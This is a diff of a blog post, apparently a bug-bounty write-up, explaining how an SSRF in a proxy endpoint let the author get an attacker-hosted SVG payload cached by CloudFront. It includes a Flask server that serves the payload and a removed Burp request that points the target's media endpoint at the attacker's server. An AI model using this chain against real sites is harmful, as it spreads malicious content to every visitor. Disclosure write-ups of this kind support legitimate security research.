

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md, 2 parts joined by grey strips. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
@@ -10,7 +8,9 @@ Hi, today I will share about the `Cache Poisoning (Variant)` vulnerability that
 
 ---
 
-## 1. Analyzing the Cache Poisoning Vulnerability via Server-Side Request Forgery?
+## 1. Bug Mechanics
 
-Alright, why do I say that? Perhaps you might be curious: this vulnerability originated from discovering a `Proxy Controller Endpoint`, so I was able to POC `SSRF`, but it was only rated `P5 Informational` because the `Program` defines that `SSRF` that only interacts with external services or with the `Server Attacker` is considered `Low-Impact`. Therefore, they suggested that I should find a way to increase its `Impact` so they could reevaluate it!
+1. **SSRF**: The attacker supplies the URL of an SVG/XML payload (e.g., `poc.xml`) to the proxy endpoint.
+2. **Fetch & Cache**: The server fetches the payload and responds with `Content-Type: image/svg+xml`, causing CloudFront to **automatically cache** the response.
+3. **Logic Bug**: Once cached, all subsequent requests return the old payload from the CDN — **the attacker’s payload propagates** to all users.
 
@@ -57,32 +43,9 @@ I have the following `Payload`:
 </svg>
 ```
 
-This `Payload` is used to perform an `Open Redirect` attack to the `Server Attacker`, which may sound `low-impact`. But what really matters to them is how this `Payload` is saved into the cache and causes mass attacks!
+### 3.2 Python Flask Demo
 
-Note: Some of you may have been wondering how I injected the `Payload`, because the `SSRF` vulnerability performed a `Fetch` to the `Server Attacker` and brought the entire `Payload` from my `Poc.xml` file back in the `Response` from the server.
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)
-
----
-
-## 4. The Real Cache Poisoning POC!
-
-Maybe that's completely done? Well, yes, it's definitely done, but how do I confirm to them that it's truly serious?
-
-I moved to a `VPS Server` to dig deeper. I wrote a web application using `Python Flask` as follows to escalate it from `P4 -> P3`:
-
-```bash
-- Detailed process
-mkdir poc-cache-poisoning
-cd poc-cache-poisoning
-nano poc.xml -> manually add the payload above
-nano app.py -> add the code below
-python3 app.py -> move to BurpSuite's Repeater
-```
-
----
 ```python
-- Code to add
 from flask import Flask, make_response
 import os
 
@@ -96,25 +59,9 @@ def serve_svg_as_xml():
             response = make_response(f.read())
             response.headers.set('Content-Type', 'image/svg+xml')
             return response
-    else:
-        return "File poc.xml not found!", 404
+    return "File poc.xml not found!", 404
 
 if __name__ == '__main__':
-    app.run(debug=False, host='0.0.0.0', port=5505)
-```
----
-
-```http
-- Request in Repeater
-GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2
-Host: VulnWeb.com
-Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0
-Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9
-Upgrade-Insecure-Requests: 1
-User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
-Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1
-Sec-Fetch-Dest: document
-Accept-Encoding: gzip, deflate, br
-Priority: u=0, i
+    app.run(host='0.0.0.0', port=5505, debug=False)
 ```
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md (+34 -51 lines).
